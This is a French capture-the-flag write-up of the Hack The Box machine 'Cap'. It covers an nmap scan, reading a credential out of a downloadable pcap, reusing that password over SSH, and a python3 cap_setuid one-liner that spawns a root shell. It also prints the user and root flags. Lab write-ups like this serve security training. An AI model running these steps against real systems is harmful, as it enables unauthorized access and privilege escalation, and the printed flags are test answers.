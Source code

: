 ```yaml
---
title: "[HTB - Easy] Cap"
description: "Writeup by jsthope"
date: 2023-03-28T00:00:00+00:00
tags: ["HTB", "Easy", "writeup", "FR"]
type: post
image: /images/cap/cap.png
showTableOfContents: true
---
```

![HTB Cap Image](/images/cap/cap.png "HTB Cap Image")
# nmap
On va tout d’abord scanner les ports ouverts de l’ip
```┌─[eu-vip-23]─[10.10.14.5]─[htb-jsthope@htb-xbv1dyv8fx]─[~]
└──╼ [★]$ nmap 10.10.10.245
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-07 22:35 BST
Nmap scan report for 10.10.10.245
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```
# http
Sur le site, on remarque qu'on est connecté de base à l'utilisateur "Nathan".
On trouve ensuite que le site permet de télécharger des trames réseaux:
http://10.10.10.245/data/0
On download le pcap numero 0 et on l'analyse ensuite avec Wireshark
![pcap](/images/cap/pcap.png "pcap")

On trouve alors le mot de passe de Nathan (utilisé pour le ftp)

# ssh
Le mot de passe ftp de Nathan et le même que sur son ssh:
```
─[eu-vip-23]─[10.10.14.5]─[htb-jsthope@htb-xbv1dyv8fx]─[~]
└──╼ [★]$ ssh nathan@10.10.10.245
```
On récupère alors le flag de l'user:
```
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
ebd6713a9539c2c987b214d1a48bc21c
```
# privesc
On cherche si on a des vulnérabilités liées aux capabilities:
```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
On voit tout de suite ici que python3.8 est sûrement vulnérable à un exploit de type setuid. 
On peut trouver les exploits de capabilities sur:
https://gtfobins.github.io/gtfobins/python/#capabilities
```
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'

# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```
On est bien root !
Il ne reste plus qu'a récupérer le dernier flag:
```
# cat /root/root.txt
0987dc49d725b0d0f38fe7f6349b266c
```